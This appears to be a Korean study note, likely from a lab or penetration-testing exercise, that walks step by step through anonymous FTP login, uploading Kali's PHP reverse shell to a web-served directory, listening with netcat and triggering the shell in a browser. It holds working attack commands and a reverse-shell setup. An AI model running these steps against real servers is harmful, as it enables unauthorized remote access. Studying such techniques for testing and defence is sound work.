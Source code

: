 # 익명 FTP 로그인 및 리버스쉘 업로드 공격 단계별 총정리

---

## 1. 익명 로그인(Anonymous Login) 시도

- FTP 클라이언트로 접속
    ```
    ftp [타겟IP]
    ```
    - 아이디: `anonymous`
    - 비밀번호: 아무 값 입력
    - → 로그인 성공 시 익명 접근 허용

---

## 2. 파일/디렉토리 목록 확인

- 디렉토리 내 파일 목록 확인
    ```
    ftp> ls
    ```
    - `/upload/` 디렉터리에서 `index.php` 등 웹 관련 파일 확인

- 웹에서 파일 접근 가능 여부 확인
    ```
    http://[타겟IP]/index.php
    ```
    - 웹에서 FTP 파일 접근 가능 확인

---

## 3. 리버스쉘 파일 준비

- 칼리 리눅스 기본 제공 PHP 리버스쉘 코드 수정
    ```
    vi /usr/share/webshells/php/php-reverse-shell.php
    ```
    - 49번째 줄의 IP를 공격자(본인) IP로 수정

---

## 4. 웹쉘 업로드

- FTP 익명 로그인 후 웹쉘 업로드
    ```
    put /usr/share/webshells/php/php-reverse-shell.php upload/php-reverse-shell.php
    ```

---

## 5. 리버스쉘 대기

- 공격자 PC에서 Netcat 연결 대기
    ```
    nc -lvnp 1234
    ```

---

## 6. 웹쉘 실행

- 웹브라우저에서 업로드한 웹쉘 접근
    ```
    http://[타겟IP]/php-reverse-shell.php
    ```
    - 웹쉘 접근 시 Netcat 세션 연결 확인


